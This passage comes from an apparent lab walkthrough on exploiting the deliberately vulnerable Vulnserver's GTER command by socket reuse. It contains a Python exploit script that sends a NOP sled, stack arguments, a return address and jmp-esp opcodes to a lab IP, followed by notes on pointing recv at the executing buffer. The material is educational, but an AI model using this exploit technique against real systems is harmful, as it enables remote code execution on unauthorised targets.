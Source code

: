 ```c

payload=b""
payload+=b"\x90"*40
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 buffer-size.py
```

After running this script, we can see our buffer size ```0x400``` and flag value ```0x0``` stored in stack

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gter2-buffsize-1.png">
</div>

We have pushed our second argument inside the stack too

## Crafting buffer pointer

From [Rasta's blog](https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/), he had mentioned about two ways to store payload into a buffer and use that buffer pointer

- Calculate an address, push it on to the stack and then retrieve it after recv returns and jmp to that address
- Tell recv to just dump the received data directly ahead of where we are currently executing, allowing for execution to drop straight into it

Here, the second method is more easier and efficient to execute our payload

When we jump to the start of the buffer after ```jmp esp``` and ```long jump``` opcodes, it is already used and served its purpose

We dont need that anymore

What we can do is point our ```buffer pointer``` address in the upcoming address of our current buffer and push it to the stack to load our payload, which will be executed with NOP sled

Lets use this address as our buffer pointer and use it to save buffer data of ```1024 bytes``` from here
